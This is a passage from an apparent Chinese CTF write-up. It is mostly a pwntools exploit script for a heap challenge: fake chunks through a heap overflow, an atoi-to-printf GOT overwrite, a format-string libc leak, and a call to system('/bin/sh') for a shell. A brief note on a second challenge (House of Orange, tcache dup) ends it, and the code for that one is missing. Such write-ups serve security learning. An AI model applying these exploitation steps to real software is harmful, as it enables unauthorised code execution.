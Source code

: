 ```py
    New(1,0x88,"1"*0x80)#1 0x90
    New(2,0x88,'a'*0x30)#2
    Edit(2,'a'*0x30+p64(0)+p64(0xb1))

    New(0,0x90,"0"*0x90)
    #ub
    New(0,0x88,"a")#0
    heap_lis = 0x6020c0+0x100
    Edit(0,"a"*0x10+p64(0)+p64(0x71)+p64(0)+p64(heap_lis-0x10))
    New(1,0x68,'a'*0x60)
    #fake top
    Edit(0,p64(0x602048)+p64(0)+p64(0x6020c0+0x70)*2)
    gdb.attach(p)
    New(2,0x90,'a'*0x78+p64(0x91)+p64(0x6021b0)*2)
    atoi_got = elf.got['atoi']
    payload = 'a'*0x80+p64(0x6021c0)+p64(0x100)
    Edit(2,payload)
    printf_plt = elf.plt['printf']
    #New(1,0x78,"a"*0x78)
    Edit(0,p64(atoi_got)+p64(0x100)+p64(atoi_got))

    Edit(1,p64(printf_plt))
    #gdb.attach(p)
    #leak
    p.recvuntil("choice>> ")
    p.sendline("%19$p")
    p.recvuntil("0x")
    libc_base = int(p.recvline().strip("\n"),16) - 240 - libc.sym["__libc_start_main"]
    log.success("libc base => " + hex(libc_base))
    #get shell
    p.recvuntil("choice>> ")
    p.sendline("1")
    p.recvuntil("idx:")
    p.sendline()
    p.recvuntil("content: ")
    p.sendline(p64(libc_base+libc.sym["system"]))
    p.recvuntil("choice>> ")
    p.sendline("/bin/sh\x00")
    p.interactive()

exp()
```

## pwn2

### 漏洞利用

程序里有个Magic函数可以堆溢出，先House-of-orange8次拿到ub，之后tcache dup即可

### exp.py
